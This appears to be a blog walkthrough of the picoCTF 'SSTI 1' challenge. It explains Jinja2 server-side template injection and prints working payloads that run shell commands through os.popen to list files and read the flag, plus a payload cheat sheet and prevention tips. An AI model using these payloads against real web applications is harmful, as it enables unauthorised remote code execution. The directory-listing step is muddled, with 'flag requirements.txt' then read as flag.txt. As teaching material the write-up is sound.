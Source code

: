 ```yaml
---
title: "SSTI 1 – picoCTF Walkthrough"
date: 2025-04-02 00:30:00 +0800
categories: [CTF, Web Exploitation]
tags: [SSTI, web, Jinja2, template injection, CTF]
permalink: /SSTI-1/
---
```


# Challenge: Server-Side Template Injection (SSTI) 

> **Description:**  
> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps!

> **Hint:**  
> Server Side Template Injection

---

## What is SSTI?
**Sever-Side Template Injection (SSTI)** is a vulnerability where **user input is directly rendered in a server-side template**, allowing attackers to inject and execute code on the server.

If the template engine doesn’t sanitize user input, things like this become dangerous:

```jinja
Hello {{name}}
```

If name is user-controlled, the attacker could inject:
```text
{{ 7*7 }}
```
Which renders:
```text
Hello 49
```

Now imagine instead of math, the attacker injects Python code to run commans or read files.

## What the Site Looked Like
The site was simple with a text box beside the question
    "What do you want to announce?"

Whatever you typed was reflected on the page. Classic reflection = test for SSTI

### Step 1: Testing the Template Engine
I started small by typing:
```text
{{ 7*7 }}
```

The site returned
```text
49
```

This meant that it was vulnerable to SSTI, and likely using the **jinja2** template engine (used by Flask and many Python apps)

### Step 2: Escalating with Object Traversal
To gain deeper access, I use this payload:
```jinja
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

#### What does this do?
- **config**: A Flask object in Jinja2's environment.
-  `.__class__.__init__.__global__`: Gives access to Python's global variable from the class constructor
- ['os']: Pulls in the OS module
- `.popen('ls').read()`: Run a shell command and returns the output

In short: this **breaks out of the sandbox** and let you run system commands.

### Step 3: Viewing the Files
The output of the above command showed:
```
app.py
templates/
flag requirements.txt
```
flag requirement.txt is almost always what we need in a CTF

### Step 4: Reading the Flag
To the read the flag, the following was ran
```jinja
{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}
```

The following flag was printed:
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```

## What I learned
- SSTI can be **powerful and dangerous** - from math to full remote code execution.
- Knowing the internals of Jinja2 (or any engine) is helpful in crafting payloads.
- Object traversal like `config.__class__.__init__.__globals__` is a key way to **break out of templates**.

### Other Templates Engines to Watch Out For
| Engine      | Language | Syntax Example | Known for SSTI? |
|-------------|----------|----------------|------------------|
| Jinja2      | Python   | `{{ ... }}`     | Yes            |
| Twig        | PHP      | `{{ ... }}`     | Yes            |
| Smarty      | PHP      | `{$...}`        | Yes            |
| Velocity    | Java     | `$variable`     | Yes            |
| Freemarker  | Java     | `${...}`        | Yes            |
| EJS         | Node.js  | `<%= ... %>`    | Yes            |
| Razor       | .NET     | `@{...}`        | Yes (rare)     |

Always test different expressions like {{7*7}}, ${7*7}, <%= 7*7 %> to see what sticks.

### How to Prevent SSTI
Developers: Here's how to stay safe:
- Don’t use render_template_string() with raw user input.
- Always sanitize or escape user input in templates.
- Use whitelisted template variables.
- Avoid evaluating user-controlled strings in your rendering logic.
- Use template engine settings to restrict dangerous features.

### Payload Cheat Sheet
| Purpose        | Payload                                                                 |
|----------------|-------------------------------------------------------------------------|
| Confirm SSTI   | `{{7*7}}`                                                               |
| Access config  | `{{ config }}`                                                          |
| List files     | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`  |
| Read flag.txt  | `{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}` |

## Summary
This was a classic **SSTI challenge** — starting with a simple reflected input, moving to evaluating math, then escalating to reading the server’s filesystem. Understanding Python’s object model and Jinja2 internals gave me full control.